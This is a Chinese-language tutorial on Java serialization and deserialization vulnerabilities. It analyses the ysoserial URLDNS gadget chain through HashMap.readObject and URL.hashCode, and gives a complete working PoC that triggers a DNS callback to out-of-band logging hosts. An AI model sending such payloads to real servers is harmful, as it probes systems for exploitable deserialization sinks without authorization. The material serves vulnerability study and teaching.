# java序列化与反序列化

## 序列化

序列化是指把一个Java对象变成二进制内容，本质上就是一个`byte[]`数组。

为什么要把 Java 对象序列化呢？

因为一旦 jvm 关闭，那么 java 中的对象也就销毁了，所以要想保存它，就需要把他转换为字节序列写到某个文件或是其它哪里。

而序列化后可以把`byte[]`保存到文件中，或者把`byte[]`通过网络传输到远程，这样，就相当于把Java对象存储到文件或者通过网络传输出去了。

一个Java对象要能序列化，必须满足两个条件：

1. 必须实现一个特殊的`java.io.Serializable`接口，

   它的定义如下：

   ```java
   public interface Serializable {
   }
   ```

   `Serializable`接口没有定义任何方法，它是一个空接口。我们把这样的空接口称为"标记接口"（Marker Interface），实现了标记接口的类仅仅是给自身贴了个"标记"，并没有增加任何方法。

2. 该类的所有属性必须是可序列化的。~~如果有一个属性不是可序列化的，则该属性必须注明是短暂的。~~

**一个例子：**

要序列化一个对象，首先要创建 OutputStream 对象，再将其封装在一个 ObjectOutputStream 对象内，接着只需调用 writeObject() 即可将对象序列化，并将其发送给 OutputStream（对象是基于字节的，因此要使用 InputStream 和 OutputStream 来继承层次结构）。

要反序列化出一个对象，需要将一个 InputStream 封装在 ObjectInputStream 内，然后调用 readObject() 即可。

```java
package Lnh;

import java.io.*;

public class Lnh {
    public static void main(String[] args) {
        User user = new User("w0s1np", 18, 180);
        try {
            // 创建一个FIleOutputStream
            FileOutputStream fos = new FileOutputStream("./user.ser");
            // 将这个FIleOutputStream封装到ObjectOutputStream中
            ObjectOutputStream os = new ObjectOutputStream(fos);
            // 调用writeObject方法，序列化对象到文件user.ser中
            os.writeObject(user);

            System.out.println("读取数据：");
            //  创建一个FIleInutputStream
            FileInputStream fis = new FileInputStream("./user.ser");
            // 将FileInputStream封装到ObjectInputStream中
            ObjectInputStream oi = new ObjectInputStream(fis);
            // 调用readObject从user.ser中反序列化出对象，还需要进行一下类型转换，默认是Object类型
            User user1 = (User)oi.readObject();

            user1.info();
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }
    }
}

class User implements Serializable{
    private String name;
    private int age;
    private float height;

    public User(String name, int age, float height) {
        this.name = name;
        this.age = age;
        this.height = height;
    }

    public void info(){
        System.out.println("Name: "+name+", Age: "+age+", Height: "+height);
    }

    // private void readObject(ObjectInputStream input) throws IOException, ClassNotFoundException{
    //     System.out.println("[*]执行了自定义的readObject函数");
    // }
}
```

程序执行过后会在当前目录下生成一个 user.ser 文件，并且反序列化过后会执行 info 方法，在终端上打印出 User 	的信息：



用二进制工具查看 user.ser ，



xxd 显示的结果，中间那一栏是文件的十六进制显示，最右边是字符显示。这里需要注意的特征值就是16进制显示时的前32位：

AC ED：STREAM_MAGIC，声明使用了序列化协议，**从这里可以判断保存的内容是否为序列化数据。** （这是在黑盒挖掘反序列化漏洞很重要的一个点）

00 05：STREAM_VERSION，序列化协议版本。

## 反序列化

java 的反序列化和 PHP 的反序列化是有点类似的，他们都只能将一个对象中的属性按照某种特定的格式生成一段数据流，在反序列化的时候再按照这个格式将属性拿回来，再赋值给新的对象。

但Java相对PHP序列化更深入的地方在于，其提供了更加高级、灵活地方法 writeObject ，允许开发者 在序列化流中插入一些自定义数据，进而在反序列化的时候能够使用 readObject 进行读取。

## 反序列化漏洞

看了上面感觉没啥漏洞利用点呀，类似 php 反序列化，利用点就是在一些反序列化一个对象时会自动触发`__weakup`、`__destruct`这些魔术方法，类似的 java 也是存在的。就是上面代码中的 readObject()，但上面 demo 中的 readObject() 函数不是 ObjectInputStream 的方法吗



这个我们也是不可控的呀，但是 java 是支持自定义 readObject 与 writeObject 方法的，只要某个类中按照特定的要求实现了 readObject方法，那么在反序列化的时候就会自动调用它，如果这个自定义的 readObject 方法里进行了一些危险操作，那么就会导致反序列化漏洞的发生了。



可以看到，自定义的 readObject 的确执行了！RCE就来了



然后反序列化漏洞差不多就这些，java 反序列化漏洞的原理其实不难，只是各个POP链比较复杂。下面跟一个简单的 URLDNS  入门

## URLDNS

为什么反序列化都需要现来一下这个链子呢，是因为他可以检测你打的点是否存在 readobject 点，为什么可以检测呢？

就是因为这个利用链不依赖任何第三方库，没有什么限制。所以只要反序列化这个对象，就会执行里面的链子，最后执行一个 DNS 查询操作，其实反序列化漏洞就是如此，因为目标服务器里面用了很多组件，而这些组件中就会有一些链子能执行命令或者其他操作，我们就把这些链子弄成对象序列化，然后给目标服务器的 readobject 的点来一发就可以了。

先看下 ysoserial 的 payload：



首先看到 29 行的 getObject 方法，ysoserial 会调用此方法来获得 payload ，这个方法返回的是⼀个对 象，这个对象就是最后将被序列化的对象，在这⾥是 HashMap 。

那么说明入口点就是 HashMap 的 readobject 方法，跟进

```java
    private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
        s.defaultReadObject();
        reinitialize();
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0)
            throw new InvalidObjectException("Illegal mappings count: " +
                                             mappings);
        else if (mappings > 0) { // (if zero, use defaults)
            // Size the table using given load factor only if within
            // range of 0.25...4.0
            float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);

            // Check Map.Entry[].class since it's the nearest public type to
            // what we're actually creating.
            SharedSecrets.getJavaObjectInputStreamAccess().checkArray(s, Map.Entry[].class, cap);
            @SuppressWarnings({"rawtypes","unchecked"})
            Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
            table = tab;

            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
        }
    }
```

可以看到最后一排把 HashMap 的键值进行了 hash：

```
putVal(hash(key), key, value, false, false);
```

在此处下断点，对这个 hash 函数进⾏调试并跟进，会什么会对这个函数下手呢，是因为ysoserial 注释里面讲了是 hashCode 的计算操作出发了 DNS 请求。跟进 hash 方法：



这里调用了 key.hashCode 方法，继续跟进URL的 hashCode 方法：



在该方法中，又调用了URLStreamHandler#hashCode，并将自身传递进去：



重点关注这里的 getHostAddress ，正是这步触发了 dns 请求：



到此 gadget 就完了，如何写POC呢，先回到第一步：HashMap#readObject



这里的 key 是从序列化字符里面取出来的，所以在 writeObject 一定会写入key：



跟入 internalWriteEntries：



这里的 key 以及 value 是从 tab 中取的，而 tab 的值即 HashMap 中 table 的值。



此时我们如果想要修改 table 的值，就需要调用 HashMap#put 方法，而 HashMap#put 方法中也会对 key 调用一次 hash 方法，所以在这里就会产生第一次 dns 查询：



```java
import java.util.HashMap;
import java.net.URL;

public class Lnh {
    public static void main(String[] args) throws Exception {
        HashMap map = new HashMap();
        URL url = new URL("http://xfeykt.dnslog.cn");
        map.put(url,123); //此时会产生dns查询
    }
}
```

但是我们不想要这一次的 dns 查询，那怎么办呢？回到URL#hashCode：


这里会先判断 hashCode 是否为-1，如果不为 -1 则直接返回 hashCode ，也就是说我们只要在 put 前修改URL的 hashCode 为其他任意值，就可以在 put 时不触发 dns 查询。



这里的 hashCode 是 private 修饰的，所以我们需要通过反射来修改其值。

```java
import java.lang.reflect.Field;
import java.util.HashMap;
import java.net.URL;

public class Lnh {
    public static void main(String[] args) throws Exception {
        HashMap map = new HashMap();
        URL url = new URL("http://xfeykt.dnslog.cn");
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        f.setAccessible(true); //修改访问权限
        f.set(url,123); //设置hashCode值为123，这里可以是任何不为-1的数字
        System.out.println(url.hashCode()); // 获取hashCode的值，验证是否修改成功
        map.put(url,123); //调用map.put 此时将不会再触发dns查询
    }
}
```

此时输出 url 的 hashCode 为 123，证明修改成功。当 put 完毕之后再将 url 的 hashCode 修改为 -1，确保在反序列化调用 hashCode 方法时能够正常进行，下面是完整的POC： 

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.net.URL;

public class Lnh {
    public static void main(String[] args) throws Exception {
        HashMap map = new HashMap();
        URL url = new URL("http://urldns1.eakcmc.ceye.io/");
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        f.setAccessible(true); // 修改访问权限
        f.set(url,123); // 设置hashCode值为123，这里可以是任何不为-1的数字
        System.out.println(url.hashCode()); // 获取hashCode的值，验证是否修改成功
        map.put(url,123); // 调用map.put 此时将不会再触发dns查询
        f.set(url,-1); // 将url的hashCode重新设置为-1。确保在反序列化时能够成功触发
        try{
            FileOutputStream fileOutputStream = new FileOutputStream("./urldns.ser");
            ObjectOutputStream outputStream = new ObjectOutputStream(fileOutputStream);
            outputStream.writeObject(map);
            outputStream.close();
            fileOutputStream.close();

            FileInputStream fileInputStream = new FileInputStream("./urldns.ser");
            ObjectInputStream inputStream = new ObjectInputStream(fileInputStream);
            inputStream.readObject();
            inputStream.close();
            fileInputStream.close();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```

这里是把POC进行了反序列化操作的，所以会收到一次DNS查询记录。

再看下 ysoserial 的POC：

```java
public Object getObject(final String url) throws Exception {
        URLStreamHandler handler = new SilentURLStreamHandler();

        HashMap ht = new HashMap(); // HashMap that will contain the URL
        URL u = new URL(null, url, handler); // URL to use as the Key
        ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.
        Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.
        return ht;
    }
```

它在创建URL对象时使用了三个参数的构造方法。ysoserial 用了子类继承父类的方式规避了 dns 查询，其创建了一个内部类：

```java
static class SilentURLStreamHandler extends URLStreamHandler {
        protected URLConnection openConnection(URL u) throws IOException {
            return null;
        }
        protected synchronized InetAddress getHostAddress(URL u) {
            return null;
        }
    }
```

定义了一个 URLConnection 和 getHostAddress 方法，当调用 put 方法走到 getHostAddress 方法后，


会调用 SilentURLStreamHandler 的 getHostAddress，而非 URLStreamHandler 的 getHostAddress，这里直接return null了，所以自然也就不会产生 dns 查询。

那为什么反序列化的时候又能产生 dns 查询呢？

因为这里的 handler 属性被设置为 transient，被 transient 修饰的变量无法被序列化，所以最终反序列化读取出来的 transient 依旧是其初始值，也就是 URLStreamHandler。

这样两种方法都可以规避在 put 时造成的 dns 查询，但第一种方法思路更清晰一点，利用点：

```java
HashMap->readObject()
HashMap->hash()
URL->hashCode()
URLStreamHandler->hashCode()
URLStreamHandler->getHostAddress()
```

